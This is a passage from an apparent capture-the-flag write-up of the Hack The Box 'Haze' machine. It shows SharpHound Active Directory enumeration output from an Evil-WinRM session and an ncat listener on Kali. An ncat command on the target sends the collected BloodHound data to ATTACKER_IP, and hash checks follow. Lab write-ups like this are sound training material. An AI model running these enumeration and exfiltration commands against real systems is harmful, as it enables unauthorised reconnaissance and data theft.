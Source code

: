 ```
2025-06-28T09:01:18.9254107-07:00|INFORMATION|Output channel closed, waiting for output task to complete
2025-06-28T09:01:19.0816539-07:00|INFORMATION|Status: 344 objects finished (+344 24.57143)/s -- Using 44 MB RAM
2025-06-28T09:01:19.0816539-07:00|INFORMATION|Enumeration finished in 00:00:14.0879713
2025-06-28T09:01:19.1754103-07:00|INFORMATION|Saving cache with stats: 20 ID to type mappings.
 1 name to SID mappings.
 1 machine sid mappings.
 4 sid to domain mappings.
 0 global catalog mappings.
2025-06-28T09:01:19.2066538-07:00|INFORMATION|SharpHound Enumeration Completed at 9:01 AM on 6/28/2025! Happy Graphing!
*Evil-WinRM* PS C:\Users\mark.adams\Documents> ls


    Directory: C:\Users\mark.adams\Documents


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         6/28/2025   9:01 AM          35975 20250628090106_BloodHound.zip
-a----         6/28/2025   9:07 AM        1667584 ncat.exe
-a----         6/28/2025   9:01 AM           1595 NzBkNGM2ZWYtODFhYy00M2M0LTgzNzMtNmViNTQ1NzJhN2Nk.bin
-a----         6/28/2025   8:59 AM        1286656 SharpHound.exe
```

A `ncat` listener was started on the attack host to receive the SharpHound collection file.
```
fcoomans@kali:~/htb/haze/bloodhound$ ncat -lnp 4444 --recv-only >20250628090106_BloodHound.zip
```

`ncat.exe` was used on the target to send the file to the attack host.
```
*Evil-WinRM* PS C:\Users\mark.adams\Documents> cmd /c "ncat.exe ATTACKER_IP 4444 --send-only <20250628090106_BloodHound.zip"
```

The sha256 hash for the file was retrieved on the target.
```
*Evil-WinRM* PS C:\Users\mark.adams\Documents> Get-FileHash 20250628090106_BloodHound.zip

Algorithm       Hash                                                                   Path
---------       ----                                                                   ----
SHA256          539E028D5254090AD060CCC5EB6559D78E43B07566F7B60E95771281F3D37956       C:\Users\mark.adams\Documents\20250628090106_BloodHound.zip
```

And checked against the sha256 hash for the file on Kali.  This confirmed that the file was transferred without any corruption.
```
fcoomans@kali:~/htb/haze/bloodhound$ sha256sum 20250628090106_BloodHound.zip
539e028d5254090ad060ccc5eb6559d78e43b07566f7b60e95771281f3d37956  20250628090106_BloodHound.zip
```
